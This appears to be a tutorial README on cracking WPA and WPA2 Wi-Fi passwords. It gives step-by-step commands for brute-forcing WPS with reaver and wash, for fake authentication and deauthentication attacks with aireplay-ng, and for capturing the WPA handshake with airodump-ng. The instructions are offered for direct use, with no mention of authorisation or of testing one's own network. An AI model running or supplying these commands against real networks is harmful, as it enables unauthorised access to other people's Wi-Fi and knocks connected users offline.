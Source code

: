 # WPA & WPA-2 Cracking using WPS Feature

First we need to check if the network has WPS enabled
 ```bash
wash --interface wlan0
 ``` 
If this command does not work we can simply use **airodump-ng** to get the information we need
and just make a try for the attack

1. we need to run a reaver command which will do tha WPS cracking for us
 ```bash
reaver --bssid <NetworkMAC> --channel <NetworkChannel> --interface <InterfaceName> -vvv --no-associate
 ``` 
> argument -vvv is to see as much information as possible
> argument --no-associate is to tell reaver we don't want to associate with the network because we are going to do it manually
2. Once the reaver command is launch we need to associate to the network using the **fakeauth** attack
 ```bash
aireplay-ng --fakeauth 30 -a <NetworkMac> -h <InterfaceMac> <InterfaceName>
 ``` 

# WPA & WPA2 Cracking Using HandShake

## HandShake
When we connect to a wifi using it's password router make an handshake with the device.

Handshake does not tells the the password for the network but can tell if the password is right or wrong.

## How to capture a handshake
1. Start **targeted packet sniffing** using ariodump-ng
> Keep one thing in mind your adopter should be in **Monitor Mode** So you should run Monitor Mode file first
> ```bash
> airodump-ng --bssid <mac of adoptor> --channel <channel of adoptor> --write <file name to write> <adoptor name>
> ``` 
Now without shutting down the process

Open another terminal 
2. Do a **de-auth attack** to any of the devices connected to the **network**
> Command to launch a **de-auth attack**
> ```bash
> aireplay-ng --deauth [#deauthPackets] -a [NetworkMac] -c [TargetMac] [Interface]
> ``` 
> use deauthPackets = 4 to send deauth attack for less time

### You can find Handshake on the airodum-ng terminal
now you can close the process because the handshake has been captured
